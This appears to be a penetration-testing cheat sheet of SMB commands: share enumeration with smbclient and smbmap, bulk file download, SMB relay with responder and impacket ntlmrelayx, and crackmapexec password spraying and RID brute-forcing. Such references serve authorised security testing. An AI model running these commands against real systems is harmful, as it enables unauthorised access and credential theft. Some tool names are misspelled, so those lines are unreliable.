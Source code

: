 # SMB

```bash
#Connect
smbclient --no-pass //IP/<Share>

smbmap -H <IP>
#List Share
smbmap -H <IP> -r <SHARE>
#Resources List for null session
smbclient -N <IP>
#Resources List
smbclient -L <IP>
```

<mark style="color:purple;">**Download Files:**</mark>

```python
#In this order
recurse
prompt
mget *
```

<mark style="color:purple;">**Check files attributes**</mark>

```
allinfo
```

<mark style="color:purple;">**Check Authentication**</mark>

```bash
#SMB Relay
responder -I eth0 -dwv

#Impacket
impacket-ntrlrelayx -tf target.txt -smb2support -c <payload>

```

### <mark style="color:purple;">With Credentials</mark>

<mark style="color:purple;">**SMB Credential Check**</mark>

```bash
cracmapexec smb <IP> -u usernames -p passwords

#List
crackmapexec smb <IP> -u '' -p '' --shares
```

<mark style="color:purple;">**SMB User enumeration**</mark>

```python
crackmapexec smb <IP> -u <USER> -p <PASSWORD> --rid-brute

#Full Enumeration
crackmapexec smb <IP> -u usernames -p passwords --continue-on-success
#DNS
smbmap -H <IP> -d <dns> -u '<user>' -p '<pass>'

#Connect to share
smbclient -N \\\\IP\Share

#List share
smbclient //IP/<SHARE> -U <USER>

#Download Share
smbget -U <User> smb://IP/<SHARE_LOCATION> / --download
```

<mark style="color:purple;">**SMB RMU (REMOTE MANAGEMENT USER)**</mark>

```python
crackmapexec winrm <IP> -u <USER> -p <PASSWORD>
```

<mark style="color:purple;">**Impacket**</mark>

```
impacket-smbclient <IP>/user:password@address
```
